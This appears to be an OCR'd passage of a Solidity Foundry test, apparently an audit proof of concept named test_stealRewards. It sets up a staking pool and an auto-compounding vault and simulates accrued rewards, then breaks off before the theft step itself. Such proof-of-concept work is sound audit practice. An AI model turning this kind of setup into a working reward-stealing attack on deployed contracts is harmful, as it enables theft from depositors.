 ```solidity
        )));

        s_stakingPool = StakingPoolToken(s_pod.lpStakingPool());
        s_UniV2Lp = s_stakingPool.stakingToken();

        // Add Liquidity to Uniswap V2's pABC/DAI Pool
        deal(address(s_pod), address(this), 1000e18);
        deal(address(s_dai), address(this), 10000e18);

        s_pod.approve(address(s_pod), type(uint256).max);
        s_dai.approve(address(s_pod), type(uint256).max);
        s_pod.addLiquidityV2(1000e18, 10000e18, 1000, block.timestamp);

        s_aspFactory = new AutoCompoundingPodLpFactory();

        // Preparation for minimum liquidity deposit
        IERC20(s_UniV2Lp).approve(address(s_stakingPool), type(uint256).max);
        s_stakingPool.stake(address(this), 1000);
        s_stakingPool.approve(address(s_aspFactory), type(uint256).max);

        s_asp = AutoCompoundingPodLp(s_aspFactory.create(
            "Auto Compounding pABC",
            "aspABC",
            false,
            s_pod,
            s_dexAdapter,
            s_indexUtils,
            0
        ));

        vm.label(address(s_pod), "pABC");
        vm.label(address(s_stakingPool), "spABC");
        vm.label(address(s_asp), "aspABC");
    }

    function test_stealRewards() public {
        address alice = makeAddr("Alice");
        address bob = makeAddr("Bob");

        deal(s_UniV2Lp, alice, 1e18);
        deal(s_UniV2Lp, bob, 1e18);

        // Alice stakes her LP tokens to mint spABC
        vm.startPrank(alice);
        IERC20(s_UniV2Lp).approve(address(s_stakingPool), type(uint256).max);
        s_stakingPool.stake(alice, 1e18);
        vm.stopPrank();

        // Bob stakes his LP tokens to mint spABC
        vm.prank(bob);
        IERC20(s_UniV2Lp).approve(address(s_stakingPool), type(uint256).max);
        s_stakingPool.stake(bob, 1e18);
        vm.stopPrank();

        // Alice deposits her spABC to the aspABC
        vm.startPrank(alice);
        s_stakingPool.approve(address(s_asp), type(uint256).max);
        s_asp.deposit(1e18, alice);
        vm.stopPrank();

        // Simulate rewards has been accrued in the TokenRewards contract
        TokenRewards tokenRewards = TokenRewards(s_stakingPool.POOL_REWARDS());
        deal(address(s_dai), address(this), 1000e18);
```